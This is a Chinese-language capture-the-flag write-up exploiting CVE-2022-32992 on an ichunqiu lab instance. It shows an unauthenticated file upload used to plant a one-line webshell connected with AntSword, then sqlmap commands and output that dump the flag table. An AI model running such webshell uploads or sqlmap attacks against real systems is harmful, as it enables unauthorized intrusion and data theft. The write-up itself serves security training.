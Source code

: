 > https://yunjing.ichunqiu.com/cve/detail/751
> #Webshell #SQL-Injection

> 该CMS的admin/operations/tax.php中存在可控的INSERT 语句参数，从而导致了SQL注入攻击。
> https://nvd.nist.gov/vuln/detail/CVE-2022-32992

首先是目录扫描的结果：
![[Pasted image 20230112165244.png]]

可以发现一个比较奇怪的入口点：`/admin/file.php`，访问后显示为：
![[Pasted image 20230112165336.png]]

使用基本的一句话直接上传，蚁剑连接：
![[Pasted image 20230112165623.png]]

通过公开信息，可以得知漏洞的所在点：
![[Pasted image 20230112165855.png]]

在未登录的情况下，无法正常与`/admin/operations/tax.php`进行交互，于是对`/admin/operations/tax.php`进行修改：
![[Pasted image 20230112170544.png]]

注释后，页面不再要求登录，就可以使用sqlmap进行尝试：
```shell
sqlmap -u http://eci-2zehq6dhrwkmdzgiaplq.cloudeci1.ichunqiu.com/admin/operations/tax.php?id=1 --dbs
available databases [4]:
[*] ctf
[*] information_schema
[*] mysql
[*] performance_schema

sqlmap -u http://eci-2zehq6dhrwkmdzgiaplq.cloudeci1.ichunqiu.com/admin/operations/tax.php?id=1 -D ctf --tables
Database: ctf
[18 tables]
+------------------+
| admin            |
| booking          |
| booking_payment  |
| booking_report   |
| currency         |
| demo             |
| email_setup      |
| expense          |
| expense_category |
| flag             |
| packages         |
| payment          |
| payment_type     |
| register         |
| settings         |
| sms_setting      |
| tax              |
| travellers       |
+------------------+

sqlmap -u http://eci-2zehq6dhrwkmdzgiaplq.cloudeci1.ichunqiu.com/admin/operations/tax.php?id=1 -D ctf -T flag --dump
Database: ctf
Table: flag
[1 entry]
+--------------------------------------------+
| flag                                       |
+--------------------------------------------+
| flag{5b54eaba-b2b1-48a4-9496-8b73020ec798} |
+--------------------------------------------+
```
